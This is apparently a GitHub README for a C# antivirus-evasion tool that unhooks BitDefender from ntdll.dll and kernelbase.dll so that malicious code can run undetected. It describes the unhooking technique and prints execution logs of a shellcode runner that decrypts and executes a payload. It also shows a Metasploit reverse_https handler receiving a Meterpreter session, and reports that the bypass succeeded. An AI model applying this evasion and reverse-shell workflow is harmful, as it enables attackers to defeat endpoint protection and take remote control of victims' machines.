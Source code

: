 # Unhook Bit Defender
A C# application that unhooks **BitDefender** from **ntdll.dll** and **kernelbase.dll** to help run malicious code undetected.

The code is quite long (particularly the native Win32 structs), and I'm sure it could be optimised.

# Introduction
This C# code is based upon one of the techniques demonstrated in the RED TEAM Operator: Windows Evasion Course from [Sektor7](https://institute.sektor7.net), the original is written in C/C++. I would recommend any of the malware development courses, there is a lot of great stuff to learn about creating malware in C/C++.

When Windows creates a new process BitDefender injects the **atcuf64.dll** DLL into the process and hooks many of the **ntdll.dll/kernelbase.dll** functions. If, for example, `NtCreateProcess` is called by malicious code BitDefender is able to intercept the call, do it's anti-malware magic, then return execution to the thread (or kill the process if it is malicious).

The code maps another version of a DLL in memory, finds the `.text` section, and copies it over the hoooked version.

The code has been updated so you can map and unhook any DLL in memory.

# Proof of Concept in x64dbg

The following image shows the `ZwCreateProcess` function when BitDefender is not present:

![No Bit Defender](https://github.com/plackyhacker/UnhookBitDefender/blob/main/NoBitDef.png?raw=true)


The following image shows the `ZwCreateProcess` function when Bit Defender has hooked into **ntdll.dll**. We can see the `jmp` instruction (this is the hook):

![No Bit Defender](https://github.com/plackyhacker/UnhookBitDefender/blob/main/BitDefHooks.png?raw=true)


And finally, this image shows the `ZwCreateProcess` function after being unhooked (the `jmp` instruction has been reverted back to the normal syscall):

![No Bit Defender](https://github.com/plackyhacker/UnhookBitDefender/blob/main/BitDefUnhooked.png?raw=true)


# Example
 
Execution of the code is shown below:

```
[+] Mapping Ntdll...
[+] Unhooking Ntdll...
[+] Original Dll address is 0x7FFE23450000
[+] Mapped Dll address is 0x2396A520000
[+] Mapped Dll is a valid image.
[+] e_lfanew equals 0xE8
[+] NT_HEADERS address is 0x2396A5200E8
[+] Mapped Dll NT Headers is valid.
[+] Sections to enumerate is 10
[+] First section is .text
[+] First section is at 0x2396A5201F0
[+] Analysing section .text
[+] .text section is at 0x2396A5201F0
[+] VirtualProtect Dll to PAGE_EXECUTE_READWRITE...
[+] Unhooking Dll by copying mapped data...
[+] VirtualProtect Dll to PAGE_EXECUTE_WRITECOPY...
[+] Unmapping view of Dll...

[+] Mapping Kernelbase...
[+] Unhooking Kernelbase...
[+] Original Dll address is 0x7FFE20CB0000
[+] Mapped Dll address is 0x2396A520000
[+] Mapped Dll is a valid image.
[+] e_lfanew equals 0xF0
[+] NT_HEADERS address is 0x2396A5200F0
[+] Mapped Dll NT Headers is valid.
[+] Sections to enumerate is 7
[+] First section is .text
[+] First section is at 0x2396A5201F8
[+] Analysing section .text
[+] .text section is at 0x2396A5201F8
[+] VirtualProtect Dll to PAGE_EXECUTE_READWRITE...
[+] Unhooking Dll by copying mapped data...
[+] VirtualProtect Dll to PAGE_EXECUTE_WRITECOPY...
[+] Unmapping view of Dll...

[+] Shellcode runner...
[+] Decrypting payload...
[+] VirtualAlloc...
[+] RtlMoveMemory...
[+] VirtualProtect (PAGE_NOACCESS)...
[+] Sleeping...
[+] VirtualProtect (PAGE_EXECUTE_READ)...
[+] ResumeThread...
```

And the magical meterpreter session:

```
msf6 exploit(multi/handler) >
[*] Started HTTPS reverse handler on https://192.168.1.228:443
[*] https://192.168.1.228:443 handling request from 192.168.1.142; (UUID: dqyy0qcu) Staging x64 payload (201308 bytes) ...
[*] Meterpreter session 1 opened (192.168.1.228:443 -> 192.168.1.142:59384) at 2021-10-11 08:21:51 +010
```

# Notes
~~I haven't tested the code with anything malicious yet to see if it bypasses BitDefender. I will post my findings when I do.~~

~~I tested this against Bit Defender with a very basic `Virtualalloc`, `RtlMoveMemory`, `VirtualProtect`, `CreateThread` classic combo (with an encrypted payload). Bit Defender didn't detect anything malicious on disk (with scanning) but did kill the process when `CreateThread` was called.~~

The code was updated to unhook any loaded DLL. Unhooking **ntdll.dll** and **kernelbase.dll** bypasses BitDefender in my tests.

Tested with windows/x64/meterpreter/reverse_https on Windows 10 Pro (build 10.0.19043) with BitDefender AntiVirus Free Edition.
